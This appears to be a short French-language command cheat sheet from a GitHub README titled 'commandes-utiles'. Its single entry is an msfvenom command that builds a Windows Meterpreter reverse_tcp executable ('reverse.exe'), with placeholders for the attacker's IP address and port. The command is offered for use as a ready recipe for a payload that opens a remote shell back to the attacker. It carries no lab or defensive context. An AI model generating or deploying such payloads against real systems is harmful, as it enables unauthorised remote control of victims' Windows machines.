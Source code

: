 # commandes-utiles

Créer un reverse shell msffvenom
<code>
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
 </code>
